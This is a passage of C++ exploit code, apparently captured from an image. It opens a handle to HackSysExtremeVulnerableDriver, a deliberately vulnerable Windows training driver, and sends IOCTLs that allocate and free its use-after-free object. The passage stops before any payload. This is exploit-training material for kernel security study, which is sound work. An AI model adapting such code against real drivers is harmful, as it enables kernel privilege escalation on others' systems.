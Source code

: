 ```cpp
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cout << "[!] No handle to HackSysExtremeVulnerableDriver\n";
        exit(1);
    }

    cout << "[>] Grabbed handle to HackSysExtremeVulnerableDriver: " << hex
        << hFile << "\n";

    return hFile;
}

void create_UAF_object(HANDLE hFile) {

    cout << "[>] Creating UAF object...\n";
    BYTE input_buffer[] = "\x00";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        ALLOCATE_UAF_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not create UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
    }
    cout << "[>] UAF object allocated.\n";
}

void free_UAF_object(HANDLE hFile) {

    cout << "[>] Freeing UAF object...\n";
    BYTE input_buffer[] = "\x00";

    DWORD bytes_ret = 0x0;

    int result = DeviceIoControl(hFile,
        FREE_UAF_IOCTL,
        input_buffer,
        sizeof(input_buffer),
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] Could not free UAF object\n";
        cout << "[!] Last error: " << dec << GetLastError() << "\n";
        exit(1);
```